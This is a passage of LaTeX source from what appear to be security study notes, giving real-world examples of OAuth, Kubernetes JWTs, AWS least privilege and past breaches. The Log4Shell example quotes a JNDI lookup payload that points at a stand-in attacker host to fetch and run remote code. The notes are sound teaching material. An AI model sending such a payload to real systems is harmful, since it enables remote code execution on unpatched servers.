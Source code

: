 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
Attacker must breach ALL layers to reach data.
Each layer slows, detects, or alerts on the attack.
\end{verbatim}

\section{Real-World Examples}\label{real-world-examples}

\textbf{1. OAuth 2.0 --- "Sign in with GitHub" for a CI/CD tool}
When you connect CircleCI to GitHub, CircleCI requests \texttt{repo} scope. GitHub issues an access token. CircleCI uses it to read your repos. You never gave CircleCI your GitHub password. You can revoke CircleCI\textquotesingle s access from GitHub settings at any time without changing your password.

\textbf{2. JWT --- Kubernetes service accounts}
Every pod in Kubernetes gets a mounted JWT (service account token). API calls from the pod include this token. The API server validates it, extracts the service account identity, and checks RBAC to determine what the pod can do.

\textbf{3. Log4Shell (CVE-2021-44228) --- A02 + A06 combined}
Log4j parsed \texttt{\$\{jndi:ldap://attacker.com/exploit\}} in log messages. Logging a user-supplied string triggered JNDI lookup, which fetched and executed remote Java class. Attack: send malicious User-Agent header \(\rightarrow\) app logs it \(\rightarrow\) RCE. Impact: every server running Log4j 2.x affected. Fix: Log4j 2.17+ disabled JNDI by default.

\textbf{4. AWS IAM + Least Privilege}
Bad: EC2 instance has \texttt{AdministratorAccess} policy. If app is compromised via SSRF, attacker gets admin-level AWS credentials.
Good: EC2 instance has custom policy allowing only \texttt{s3:GetObject} on specific bucket. SSRF yields limited credentials with blast radius contained.

\textbf{5. Equifax Breach (2017) --- A06 + A09}
Apache Struts CVE-2017-5638 was publicly disclosed March 2017. Equifax patched in July 2017 --- 2 months later. Attackers were inside for 78 days before detection. 147 million records exposed. Cost: \$700M+ settlement. Lesson: patch critical CVEs within 24-48 hours; have detection/alerting.

\textbf{6. bcrypt in production --- LinkedIn 2012}
LinkedIn stored 6.5M passwords in SHA-1 (unsalted). Attackers cracked millions in hours using rainbow tables. If they\textquotesingle d used bcrypt, it would have taken centuries. Lesson: password hashing is not general-purpose hashing.
\end{document}
